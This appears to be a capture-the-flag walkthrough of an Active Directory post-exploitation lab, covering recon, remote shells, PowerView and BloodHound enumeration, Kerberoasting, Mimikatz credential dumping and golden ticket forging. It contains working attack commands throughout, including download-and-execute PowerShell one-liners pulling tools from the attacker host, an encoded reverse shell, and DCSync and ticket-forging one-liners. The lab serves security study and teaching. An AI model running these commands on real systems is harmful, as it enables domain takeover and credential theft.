

## Recon
---
### Nmap

```bash
# Nmap 7.93 scan initiated Tue Jun  6 10:26:44 2023 as: nmap -sVC -p- -T4 -oA Post-Exploitation -vv 10.10.125.202
Nmap scan report for 10.10.125.202
Host is up, received conn-refused (0.28s latency).
Scanned at 2023-06-06 10:26:45 EDT for 1044s
Not shown: 65492 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       REASON       VERSION
22/tcp    open     ssh           syn-ack      OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 96d2bc63496518f603540f7d920f8de8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbwnP6ux1JqmYnPOgX+pIwvwo4mQXr9V5AWO3LLqBp6BSF/EW8/kOn3i+k64MF2AnrfvdvBMLSA5cgwpu/PuLFYa+EBbvOOevHiWWeM4InvR0rmQ/B+4XNdCzspL+OKyUADq/mFTOHHM5ogShf+MXZyeLKtTu5wa71NLRZtcY9gPBSJm1tzcolj5I+yflVslu48tLszimHgBc1mf36MctFfQ+zhhwYgHtumTSfSW5cfwpBf5ilmYiaGUIoZDmSlHy3GABKsOXJ2TU4EshtTH/QLhMv+ruKMaj6aGywY26qEUmbqdg8g0Ls5z5HeQQ4vWjRBDoH0IFjItll1rNJu8I/
|   256 ec5964da540516ba74ef357394a3d261 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyqAnIQAvAbQ39mdf9UN0FmBOvLXS7pYCPGAKFIpbrnhcZQ0jDWzuVV8vmX20g8S9KCUlFUghxKAVtrvzSyeac=
|   256 1abb4e1bec253c14699ef4690b417763 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFIA/GstavNTCacX5LN7AeZJs49vZ3WAB38woZU4agb3
53/tcp    open     domain        syn-ack      Simple DNS Plus
88/tcp    open     kerberos-sec  syn-ack      Microsoft Windows Kerberos (server time: 2023-06-06 14:43:04Z)
135/tcp   open     msrpc         syn-ack      Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack      Microsoft Windows netbios-ssn
389/tcp   open     ldap          syn-ack      Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
|_ssl-date: 2023-06-06T14:44:07+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:Domain-Controller.CONTROLLER.local
| Issuer: commonName=CONTROLLER-DOMAIN-CONTROLL-CA/domainComponent=CONTROLLER
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-10-03T15:15:57
| Not valid after:  2021-10-03T15:15:57
| MD5:   1d598830028064fede645a95346f364f
| SHA-1: f6bc4307a049f2c528eb16493133a60d7d5c12c7
| -----BEGIN CERTIFICATE-----
...
|_-----END CERTIFICATE-----
445/tcp   open     microsoft-ds? syn-ack
464/tcp   open     kpasswd5?     syn-ack
593/tcp   open     ncacn_http    syn-ack      Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap      syn-ack      Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:Domain-Controller.CONTROLLER.local
| Issuer: commonName=CONTROLLER-DOMAIN-CONTROLL-CA/domainComponent=CONTROLLER
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-10-03T15:15:57
| Not valid after:  2021-10-03T15:15:57
| MD5:   1d598830028064fede645a95346f364f
| SHA-1: f6bc4307a049f2c528eb16493133a60d7d5c12c7
| -----BEGIN CERTIFICATE-----
...
|_-----END CERTIFICATE-----
|_ssl-date: 2023-06-06T14:44:06+00:00; +1s from scanner time.
3268/tcp  open     ldap          syn-ack      Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:Domain-Controller.CONTROLLER.local
| Issuer: commonName=CONTROLLER-DOMAIN-CONTROLL-CA/domainComponent=CONTROLLER
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-10-03T15:15:57
| Not valid after:  2021-10-03T15:15:57
| MD5:   1d598830028064fede645a95346f364f
| SHA-1: f6bc4307a049f2c528eb16493133a60d7d5c12c7
| -----BEGIN CERTIFICATE-----
...
|_-----END CERTIFICATE-----
|_ssl-date: 2023-06-06T14:44:07+00:00; +2s from scanner time.
3269/tcp  open     ssl/ldap      syn-ack      Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:Domain-Controller.CONTROLLER.local
| Issuer: commonName=CONTROLLER-DOMAIN-CONTROLL-CA/domainComponent=CONTROLLER
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-10-03T15:15:57
| Not valid after:  2021-10-03T15:15:57
| MD5:   1d598830028064fede645a95346f364f
| SHA-1: f6bc4307a049f2c528eb16493133a60d7d5c12c7
| -----BEGIN CERTIFICATE-----
...
|_-----END CERTIFICATE-----
|_ssl-date: 2023-06-06T14:44:06+00:00; +1s from scanner time.
3389/tcp  open     ms-wbt-server syn-ack      Microsoft Terminal Services
| ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
| Issuer: commonName=Domain-Controller.CONTROLLER.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-06-05T14:09:51
| Not valid after:  2023-12-05T14:09:51
| MD5:   fe072465ec53f37cb5061bd0bfb5867b
| SHA-1: efd114819cca6dcf831098f5b1337d953a7e9db6
| -----BEGIN CERTIFICATE-----
...
|_-----END CERTIFICATE-----
|_ssl-date: 2023-06-06T14:44:06+00:00; +1s from scanner time.
| rdp-ntlm-info:
|   Target_Name: CONTROLLER
|   NetBIOS_Domain_Name: CONTROLLER
|   NetBIOS_Computer_Name: DOMAIN-CONTROLL
|   DNS_Domain_Name: CONTROLLER.local
|   DNS_Computer_Name: Domain-Controller.CONTROLLER.local
|   DNS_Tree_Name: CONTROLLER.local
|   Product_Version: 10.0.17763
|_  System_Time: 2023-06-06T14:43:59+00:00
5985/tcp  open     http          syn-ack      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9009/tcp  filtered pichat        host-unreach
9389/tcp  open     mc-nmf        syn-ack      .NET Message Framing
9410/tcp  filtered unknown       host-unreach
12139/tcp filtered unknown       host-unreach
13098/tcp filtered unknown       host-unreach
22238/tcp filtered unknown       host-unreach
31406/tcp filtered unknown       host-unreach
36124/tcp filtered unknown       host-unreach
39837/tcp filtered unknown       host-unreach
45755/tcp filtered unknown       host-unreach
47001/tcp open     http          syn-ack      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47463/tcp filtered unknown       host-unreach
49664/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49665/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49666/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49670/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49675/tcp open     ncacn_http    syn-ack      Microsoft Windows RPC over HTTP 1.0
49677/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49678/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49684/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49704/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49706/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49711/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49765/tcp open     msrpc         syn-ack      Microsoft Windows RPC
49898/tcp filtered unknown       host-unreach
54458/tcp filtered unknown       host-unreach
55102/tcp filtered unknown       host-unreach
56390/tcp filtered unknown       host-unreach
57507/tcp filtered unknown       host-unreach
Service Info: Host: DOMAIN-CONTROLL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 46184/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 9614/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44730/udp): CLEAN (Failed to receive data)
|   Check 4 (port 36570/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2023-06-06T14:43:59
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
```

## Initial Access
---

### Impacket

> https://vk9-sec.com/impacket-remote-code-execution-rce-on-windows-from-linux/

Connect via 5 exec methods:  **smbexec**, **psexec**, **wmiexec**, **atexec**, **dcomexec**

```bash
wmiexec.py CONTROLLER/Administrator:'P@$$W0rd'@10.10.125.202 -shell-type powershell
```

### RDP

**With dynamic screen resolution**

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /d:CONTROLLER /v:10.10.125.202 /dynamic-resolution +clipboard /cert:ignore
```

**With static screen resolution**

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /d:CONTROLLER /v:10.10.125.202 /size:1800x900
```

### Evin-Winrm

Make sure winrm is enabled before connecting with winrm

**Enable winrm**

```bash
cme smb 10.10.70.75 -u Administrator -p 'P@$$W0rd' -X 'Enable-PSRemoting -Force'
```

**Connect**

```bash

evil-winrm -i 10.10.125.202 -u Administrator -p 'P@$$W0rd'
```

### Reverse Shell

Get reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ cme smb 10.10.125.202 -u Administrator -p 'P@$$W0rd' -x 'powershell -exec bypass -enc CgAkAGMAIAA9A...'
```

Use **rlwrap** to get autocompletes on windows machine

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.125.202] 50292
whoami
controller\administrator
ps>
```

## Enumeration w/ Powerview
---

> Cheat Sheet: [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

> Official Doc: https://powersploit.readthedocs.io/en/latest/

```bash
┌──(kali㉿kali)-[~/thm]
└─$ evil-winrm -i 10.10.70.75 -u Administrator -p 'P@$$W0rd' -s /opt/sectools/powershell/PowerSploit/Recon

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> PowerView.ps1
*Evil-WinRM* PS C:\Users\Administrator\Documents> menu

[+] Add-DomainGroupMember
[+] Add-DomainObjectAcl
[+] Add-RemoteConnection
[+] Add-Win32Type
[+] Convert-ADName
[+] Convert-DNSRecord
...
```

> It loads super slow when using script from `-s` in **evil-winrm**, should use `downloadstring` to avoid this 

Get Domain Admins:
```bash
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

---

### What is the shared folder that is not set by default?

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> Find-DomainShare

Name           Type Remark              ComputerName
----           ---- ------              ------------
ADMIN$   2147483648 Remote Admin        Domain-Controller.CONTROLLER.local
C$       2147483648 Default share       Domain-Controller.CONTROLLER.local
IPC$     2147483651 Remote IPC          Domain-Controller.CONTROLLER.local
NETLOGON          0 Logon server share  Domain-Controller.CONTROLLER.local
Share             0                     Domain-Controller.CONTROLLER.local
SYSVOL            0 Logon server share  Domain-Controller.CONTROLLER.local
```

> Share

### What operating system is running inside of the network besides Windows Server 2019?

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainComputer 
logoncount                    : 83                                                                                                                                                                               serverreferencebl             : CN=DOMAIN-CONTROLL,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=CONTROLLER,DC=local                                                                        badpasswordtime               : 12/31/1600 4:00:00 PM                                                                                                                                                            distinguishedname             : CN=DOMAIN-CONTROLL,OU=Domain Controllers,DC=CONTROLLER,DC=local
objectclass                   : {top, person, organizationalPerson, user...}
lastlogontimestamp            : 6/7/2023 6:19:56 AM
name                          : DOMAIN-CONTROLL
objectsid                     : S-1-5-21-849420856-2351964222-986696166-1000
samaccountname                : DOMAIN-CONTROLL$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT
whenchanged                   : 6/7/2023 1:19:56 PM
countrycode                   : 0
cn                            : DOMAIN-CONTROLL
accountexpires                : NEVER
operatingsystem               : Windows Server 2019 Standard
...
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainComputer | select name, operatingsystem

operatingsystem
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation
```

> Windows 10 Enterprise Evaluation

### I've hidden a flag inside of the users find it

```powershell

*Evil-WinRM* PS C:\Users\Administrator\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
Admin2                   Administrator            Guest
krbtgt                   Machine1                 Machine2
POST                     SQLService               sshd


ne*Evil-WinRM* PS C:\Users\Administrator\Documents> net user /domain POST
User name                    POST
Full Name                    POST{P0W3RV13W_FTW}
Comment
...
```

> POST{P0W3RV13W_FTW}

### Easter Egg

`SQLService` password is in comment

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainUser -SPN
...
badpasswordtime       : 6/7/2023 9:23:07 AM
description           : My password is MYpassword123#
distinguishedname     : CN=SQL Service,CN=Users,DC=CONTROLLER,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : SQL Service
lastlogontimestamp    : 6/7/2023 9:23:16 AM
userprincipalname     : SQLService@CONTROLLER.local
name                  : SQL Service
objectsid             : S-1-5-21-849420856-2351964222-986696166-1107
samaccountname        : SQLService
...
```

Validate password

```bash
┌──(kali㉿kali)-[~/thm]
└─$ cme smb 10.10.104.42 -u 'SQLService' -p 'MYpassword123#'
SMB         10.10.104.42    445    DOMAIN-CONTROLL  [*] Windows 10.0 Build 17763 x64 (name:DOMAIN-CONTROLL) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
SMB         10.10.104.42    445    DOMAIN-CONTROLL  [+] CONTROLLER.local\SQLService:MYpassword123# (Pwn3d!)
```

> Be sure to use `samaccountname` value as user to login

## Enumeration w/ Bloodhound
---

### Start BloodHound

**Start Neo4j**

```bash
sudo neo4j console
```

How to recover neo4j password : https://neo4j.com/docs/operations-manual/current/configuration/password-and-user-recovery/

> Connect to the `system` database using Cypher shell. Alternatively, **log into Neo4j Browser**.

**Start Bloodhound**

```bash
bloodhound
```

### Collect Data From Domain Computer

#### Using SharpHound.ps1

**CheatSheet**: https://www.thehacker.recipes/ad/recon/bloodhound

Host `SharpHound.ps1`

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell]
└─$ python3 -m http.server 80
```

Open SMB Server

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support
```

Use SharpHound to collect data

```bash
iex (new-object net.webclient).downloadstring("http://10.11.19.145/SharpHound.ps1"); Invoke-BloodHound -CollectionMethods All -RandomFileNames -OutputDirectory \\10.11.19.145\s\
```

Swap the file into bloodhound



First, mark the target that was owned already


Second, find shortest path to own the AD


#### Using CrackMapExec

Guide: https://wiki.porchetta.industries/getting-started/bloodhound-integration

Set config for bloodhound

```bash
vi ~/.cme/cme.conf

[BloodHound]
bh_enabled = True
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = neo4j
bh_pass = <PASSWORD>
```

Every time cme get a valid credential, it will be added to bloodhound!


---

### What service is also a domain admin

Find domain admins


> SQLSERVICE

### What two users are Kerberoastable?

> SQLSERVICE,KRBTGT

#### Using Bloodhound


#### Using Impacket

It will only retrieve `SQLService` without using userlist

```bash
┌──(kali㉿kali)-[~/thm]
└─$ GetUserSPNs.py -dc-ip 10.10.104.42 -request CONTROLLER.local/Administrator:'P@$$W0rd' -outputfile tgs_hash.txt
Impacket v0.10.1.dev1+20230511.163246.f3d0b9e - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
```

#### Using PowerView

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainUser -SPN | select samaccountname

samaccountname
--------------
krbtgt
SQLService
```

It will be able to retrieve both `krbtgt` and `SQLService` if using userfile 

```bash
┌──(kali㉿kali)-[~/thm]
└─$ GetUserSPNs.py -dc-ip 10.10.104.42 CONTROLLER.local/Administrator:'P@$$W0rd' -usersfile userfile.txt -request -outputfile tgs_hash.txt
Impacket v0.10.1.dev1+20230511.163246.f3d0b9e - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
$krb5tgs$18$krbtgt$CONTROLLER.LOCAL$*krbtgt*$8facc4acada694d392981216$3da7515f6817c79c65a2a7076b70ea36f001e343d5dfeafadc3...
$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$SQLService*$2b778eda8560262829da55a4c6dc8868$f9fbd0627bef617b9f0ff3b62a887d8d...
```

#### Using CrackMapExec

> Not recommended, very slow and buggy

```bash
crackmapexec ldap 10.10.104.42 -u "SQLService" -p "MYpassword123#" --kerberoasting KERBEROASTING
```

## Dumping hashes w/ mimikatz
---

### Preparation

### Fileless (PowerShell)

Execute mimikatz directly in memory is more stealthy

Attacker Side:

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/Invoke-Mimikatz]
└─$ python3 -m http.server 80
```

On Victim:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> iex (new-object net.webclient).downloadstring("http://10.11.19.145/Invoke-Mimikatz.ps1"); Invoke-Mimikatz
```

### Windows Binary

**Setup Share Folder**

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell]
└─$ mimikatz

> mimikatz ~ Uses admin rights on Windows to display passwords in plaintext

/usr/share/windows-resources/mimikatz
...
└── x64
    ├── mimidrv.sys
    ├── mimikatz.exe
    ├── mimilib.dll
    └── mimispool.dll
    
┌──(kali㉿kali)-[/usr/share/windows-resources/mimikatz]
└─$ cp x64/mimikatz.exe /tmp/www

┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support
```

**Execute**

> [!wew] Notice
> - Note the command format for windows binary!
> - Remeber to add `exit` on the end of the cmd, otherwise revshell will freeze because of its interactive command prompt

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> copy \\10.11.19.145\s\mimikatz.exe .\mimi.exe
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\mimi.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

**Execute in interactive reverse shell**

```bash

```

### Cheat Sheets

> https://cheats.philkeeble.com/active-directory/mimikatz
> https://tools.thehacker.recipes/mimikatz/modules
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```bash
# One Liner
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'

# Impersonate domian Admin
Invoke-Mimikatz -Command "token::elevate /domainadmin"

# DCsync
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate /domainadmin" "lsadump::dcsync /user:krbtgt" "exit"'

# Extract Tickets
Invoke-Mimikatz -Command "sekurlsa::tickets /export"

# Pass The Hash
Invoke-Mimikatz -Command "sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell"
```

### What is the Machine1 Password?

Copy NTLM hash from mimikatz oneliner result

```bash
echo '64f12cddaa88057e06a81b54e73b949b' > h
hashcat h /opt/wordlists/rockyou.txt -m 1000
```

> Password1

### What is the Machine2 Hash?

Tmux search is the best

> c39f2beb3d2ec06a62cb887fb391dee0

## Golden Ticket Attacks w/ mimikatz
---
### Dcync

Get krbtgt hash for later use to craft golden ticket

> [!NOTE] Notice
> **Domain admin or DCSync permission is needed**

```bash
Invoke-Mimikatz -Command '"token::elevate /domainadmin" "lsadump::dcsync /user:krbtgt"'
```

AES 256 HMAC Hash

> `8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d`

### Craft Golden Ticket With Mimikatz

> https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
> https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden
> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket

> [!NOTE] **4 values are required to craft golden tickets**
> - Domain User to impersonate
> - Domain Name
> - Domain SID (can get with `whoami /user`)
> - KRBTGT hash

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:CONTROLLER.local /sid:S-1-5-21-849420856-2351964222-986696166 /aes256:8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d /groups:500,501,513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

> [!NOTE] Notice
> - **Keep in mind of the command format**: Use Single quote to contain commands with double quote
> - By default, mimikatz will generate TGT with a very long validity, which is suspicious. limit the TGT to be expired in 10 minutes is more OPSEC safe
> - Remove `/ptt` to save ticket to file

Use cmd `klist` to confirm that the ticket is loaded

```bash
PS C:\Users\Administrator> klist

Current LogonId is 0:0x1b6f60
Cached Tickets: (1)

#0>     Client: Administrator @ CONTROLLER.local
        Server: krbtgt/CONTROLLER.local @ CONTROLLER.local
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 6/8/2023 8:24:37 (local)
        End Time:   6/8/2023 18:24:37 (local)
        Renew Time: 6/15/2023 8:24:37 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

> [!NOTE] Notice
> When klist result coudn't output to reverse shell (weird but actually happened) , use `kerberos::list` instead

```bash
PS C:\> Invoke-Mimikatz -Command '"kerberos::list"'
Hostname: DOMAIN-CONTROLL / S-1-5-21-849420856-2351964222-986696166

mimikatz(powershell) # kerberos::list

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 6/8/2023 8:11:20 AM ; 6/8/2023 6:11:20 PM ; 6/15/2023 8:11:20 AM
   Server Name       : krbtgt/CONTROLLER.local @ CONTROLLER.local
   Client Name       : Administrator @ CONTROLLER.local
   Flags 40e00000    : pre_authent ; initial ; renewable ; forwardable ;
```

### Use the Golden Ticket to access other machine

> `misc::cmd` - This will open a new command prompt with elevated privileges to all machines

```bash
PS C:\> net group "Domain Computers"
Group name     Domain Computers
Comment        All workstations and servers joined to the domain

Members

-------------------------------------------------------------------------------
DESKTOP-1$               DESKTOP-2$
The command completed successfully.

PS C:\> dir \\DESKTOP-2\C$
...
```

## Enumeration w/ Server Manager
---

### Access via RDP

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /d:CONTROLLER /v:10.10.200.19 /dynamic-resolution +clipboard /cert:ignore
```

### Useful tools


### Enumeration w/ Server Manager


### What tool allows to view the event logs?


> Event Viewer

### What is the SQL Service password

Discovered earlier in [[#Easter Egg]]


> MYpassword123#

## Maintaining Access
---
This section's content isn't useful enough

#### Use resources below
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md
- https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-methodology
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-persistence

#### Tools
- **SharPersist**